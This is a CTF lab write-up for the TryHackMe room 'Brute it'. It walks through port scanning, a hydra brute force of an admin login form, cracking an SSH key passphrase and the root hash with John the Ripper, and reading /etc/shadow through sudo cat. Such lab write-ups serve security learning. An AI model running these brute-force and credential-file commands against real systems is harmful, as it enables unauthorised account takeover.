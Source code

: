 ```yaml
---
published: true
---
```


Well hello and welcome to another writeup of a room called brute it from tryhackme. It involves :

- Brute forcing
- Hash cracking
- Privilege Escalation

![]({{site.baseurl}}/images/brute_it/room.jpg)

Room : [Brute it](https://tryhackme.com/room/bruteit)

So lets get started.

## Scanning For Open Ports

> nmap -A IPADDR

We get the following result :

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-19 15:35 IST
Nmap scan report for 10.10.214.54
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.95 seconds
```

We already got the answers of the first 4 questions.

So now lets hop on to the website

![]({{site.baseurl}}/images/brute_it/site.png)

## Scanning for Web Directories

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirb/common.txt

After scanning we get a /admin directory which has the following login page. Well we don't have the username or the password but after checking the source code we get the following comment :


> <!-- Hey john, if you do not remember, the username is admin -->

Pretty secure huh?

## Hail Hydra

Now lets bruteforce the login page with hydra 

> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.118.163 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"

Explaination : 

```-l admin``` : Specifying the username

```-P /usr/share/wordlists/rockyou.txt``` : Specifying the password dictionary

```10.10.118.163``` : The Target IP

```http-post-form``` : The type of attack protocol

```/admin``` : The directory of the form

```user=^USER^&pass=^PASS^``` : The login response from the form

```Username or password invalid``` : The login message if the login failed

After running hydra we get the password ```xavier```. So lets log in.

![]({{site.baseurl}}/images/brute_it/john.png)

We get the RSA key and the web flag.

## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/JohnTheRipper/ssh2John.py id_rsa > hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passpharse.

## Getting SSH

Lets try to log into ssh using john as a username as we saw that in the previous comment

![]({{site.baseurl}}/images/brute_it/sshlogin.png)

And we are in!! We get the user flag right away in john's directory.

## Privilege Escalation

Now lets look for SUIDs by running ``` sudo -l```

![]({{site.baseurl}}/images/brute_it/suid.png)

We can run ```cat``` as sudo. Looking on [GTFOBins](https://gtfobins.github.io/) I find that this will allow me to read any file. So now lets try to read the ```/etc/shadow``` file.

> LFILE=/etc/shadow                                                                                         
 sudo cat "$LFILE"

And we get the root hash. However I also found out that you can just cat the shadow file as sudo without doing the above process. After reading the hash i copied it over to my machine and used john to get the password.

> john --wordlist=/usr/share/wordlists/rockyou.txt rhash

Now lets login.

![]({{site.baseurl}}/images/brute_it/root.png)

There you go! We completed this challenge and got all the flags! This one was a web based challenge which is a category on which I suck but still it was pretty simple and straight forward. See you next time :)
